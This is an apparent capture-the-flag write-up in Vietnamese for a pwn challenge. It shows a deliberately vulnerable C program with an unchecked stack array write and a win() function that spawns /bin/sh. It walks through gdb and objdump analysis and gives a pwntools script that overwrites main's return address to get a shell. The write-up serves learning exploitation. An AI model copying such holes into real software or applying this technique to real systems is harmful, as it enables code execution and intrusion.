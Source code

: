 ```C
#include <stdio.h>
#include <stdlib.h>


void win(){
        system("/bin/sh");
}

void getLong(long* a){
        puts("enter number : "); 
        char buf[0x10] = {}; 
        fgets(buf, 0xf,stdin); 
        *a = atol(buf); 
} 
 
int main(int argc, char const *argv[]) 
{ 
        setbuf(stdin,NULL); 
        setbuf(stdout,NULL); 
        printf("your main %p\n",main); 
 
        long bof[0x10]; 
        long idx; 
        long value;
        getLong(&idx);
        getLong(&value);
        bof[idx] = value;
        return 0;
}
```


Đọc source code, ta có thể thấy chương trình in ra địa chỉ của hàm main, sau đó cho phép chúng ta ghi value vào vị trí bof[idx]

Chúng ta dễ dàng thấy, có thể ghi 1 giá trị bất kì vào 1 địa chỉ ở trong stack
-> chúng ta có thể ghi đè return value ở hàm main bằng địa chỉ của hàm win 

Dùng gdb, disass hàm main ta thấy địa chỉ của bof là rbp-0x90
![alt text](https://github.com/dev1de/images/blob/main/1.png)

Đặt breakpoint tại leave, chạy chương trình với idx = 0 và value = 1234 (0x4d2), kiểm tra stack

![alt text](https://github.com/dev1de/images/blob/main/2.png)

Vì bof có kiểu dữ liệu Long nên mỗi idx của bof sẽ cách nhau 8 bytes
-> idx cần ghi = (main_return_address - bof_address)/8 = 19

Chương trình in ra địa chỉ hàm main() do đó ta có thể tính được địa chỉ của hàm win()
win_addr = main_address - main_offset + win_offset

Sử dụng objdump để tìm được offset của main() và win()
![alt text](https://github.com/dev1de/images/blob/main/3.png)
![alt text](https://github.com/dev1de/images/blob/main/4.png)

Ta có script để get shell:
```python
import pwn
p = pwn.process("./bof1")
p.recvuntil('your main ')
main = p.readline()[:14]
main = int(main.decode('utf-8'),16) - (0x9d - 0x09)
p.sendline(str(19))
p.write(str(main))
p.interactive()
```
